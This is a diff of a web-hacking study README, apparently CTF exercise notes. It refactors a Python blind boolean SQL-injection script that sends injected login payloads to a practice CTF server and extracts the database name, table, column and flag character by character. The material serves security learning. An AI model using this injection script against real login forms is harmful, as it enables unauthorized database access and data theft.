

Before and after one commit to codename-123/web-hacking-study, a Markdown page: 07_week/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/07_week/README.md
+++ b/07_week/README.md
@@ -318,40 +318,36 @@ normaltic' or ascii(substring(database(),1,1))=115 and '1'='1
 ```python
 import requests
 
-def sqli_true(payload: str) -> bool:
-    data = {
-        "UserId": payload,
-        "Password": "1234",
-        "Submit": "Login"
-    }
-    r = requests.post("http://ctf2.segfaulthub.com:7777/sqli_3/login.php", data=data, allow_redirects=False)
-    return r.status_code == 200
-
-def dump_data(sql: str) -> str:
+def data(sql):
     result = ""
     for i in range(1, 50):
         for ascii_code in range(32, 127):
             payload = f"normaltic' or ascii(substr(({sql}),{i},1))={ascii_code} and '1'='1"
-            if sqli_true(payload):
+            data = {
+                "UserId": payload,
+                "Password": "1234",
+                "Submit": "Login"
+            }
+            r = requests.post("http://ctf2.segfaulthub.com:7777/sqli_3/login.php", data=data, allow_redirects=False)
+            if r.status_code == 200:
                 result += chr(ascii_code)
                 print(chr(ascii_code), end='')
                 break
-            else:
-                break
+        else:
+            break
     return result
 
-
 print("DB: ")
-db = dump_data("database()")
+db = data("database()")
 print("\n")
 print("Table: ")
-table = dump_data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
+table = data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
 print("\n")
 print("Column:")
-col = dump_data(f"select column_name from information_schema.columns where table_name='{table}' limit 0,1")
+col = data(f"select column_name from information_schema.columns where table_name='{table}' limit 0,1")
 print("\n")
 print("Flag:")
-flag = dump_data(f"select {col} from {table} limit 0,1")
+flag = data(f"select {col} from {table} limit 0,1")
 print("\n")
 print(f"Flag → {flag}")
 ```
````
